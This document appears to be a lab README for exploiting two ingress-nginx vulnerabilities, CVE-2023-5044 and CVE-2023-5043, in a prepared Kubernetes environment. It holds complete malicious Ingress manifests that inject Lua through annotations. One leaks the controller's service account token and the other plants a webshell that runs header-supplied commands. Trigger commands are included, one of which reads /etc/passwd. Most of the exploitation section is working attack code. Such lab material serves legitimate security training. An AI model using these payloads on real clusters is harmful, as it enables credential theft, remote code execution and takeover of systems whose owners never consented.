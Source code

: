 # Abusing CVE-2023-5044 and CVE-2023-5043

This scenario prepare the environment so you can exploit CVE-2023-5044 and CVE-2023-5043. These exploits abuse some of the Kubernetes Nginx ingress controller features to inject code using annotations, these vulnerabilities were fixed in the 1.9.0 version.

The ingress controller is installed as a NodePort service (To avoid the need of an external load balancer), its ports are:
- 30080 for HTTP
- 30443 for HTTPS

A pod you can SSH into is provided, the service account used by the pod has limited privileges but are enough to exploit the vulnerabilities. The idea is to emulate a scenario where an application/user that manage the Ingress objects is compromised:

```bash
ssh pwned@10.10.20.2 -p 30023 # Password: pwned
```

The service account has only **read access to services and pods but full access to ingress objects**.

Once connected, prepare the `kubectl` binary so you can make request to the Kubernetes API in an easy way:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

If you did everything right, this command should return all the pods in the cluster:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get pods -A
```

From here, you can continue reading for a guided exploitation or research for yourself. At the end of this document you can find some really interesting references to understand the vulnerabilities.

## CVE-2023-5044

The provided PoC will leak the Nginx controller service account token instead of provide a webshell. This token has access to a lot of resources including secrets so in most cases you may abuse this to escalate and get full access to the cluster.

First deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5044
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$2
    nginx.ingress.kubernetes.io/permanent-redirect: https://www.google.com;}location ~* "^/exploit(/|$)(.*)" {content_by_lua 'ngx.say(io.popen("cat /var/run/secrets/kubernetes.io/serviceaccount/token"):read("*a"))';}location ~* "^/exploit(/|$)(.*)" { content_by_lua 'os.execute("touch /you")'
spec:
  rules:
  - http:
      paths:
      - pathType: Prefix
        path: /foo(/|$)(.*)
        backend:
          service:
            name: foo-service
            port:
              number: 5678
      - pathType: Prefix
        path: /test(/|$)(.*)
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Once the above is done, execute this to get the Nginx controller service account token:

```bash
curl http://10.10.20.2:30080/exploit
```

## CVE-2023-5043:

In order for this to work the `allow-snippet-annotations` option needs to be set to `true`. This option was defaulted to `true` until v1.9.0, what means that previous versions are mostly vulnerable if the administrator did not mitigated the problem and later versions could be vulnerable if the `allow-snippet-annotations` was re-enabled for some reason. Also, if you have enough privileges to play with the Nginx controller ConfigMap, you can enable the `allow-snippet-annotations` option yourself!

The exploitation of this vulnerability is pretty similar to CVE-2023-5044. In this case, the PoC provided will give you a webshell. Deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5043
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "pwned"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /pwned/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: pwned.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Now you can start executing commands in the Nginx controller pod. The example command will return the contents of the `/etc/passwd` file:

```bash
curl -v -H 'Host: pwned.me' -H "cmd: cat /etc/passwd" http://10.10.20.2:30080/pwned/
```

## References

- https://kubernetes.io/docs/concepts/services-networking/ingress/
- https://www.covertswarm.com/post/exploiting-cve-2023-5044-and-cve-2023-5043-to-overtake-a-kubernetes-cluster
- https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/configmap/#allow-snippet-annotations
- https://github.com/r0binak/CVE-2023-5044
- https://github.com/KubernetesBachelor/CVE-2023-5044
- https://github.com/r0binak/CVE-2023-5043
- https://www.armosec.io/blog/cve-2023-5043-nginx-ingress/
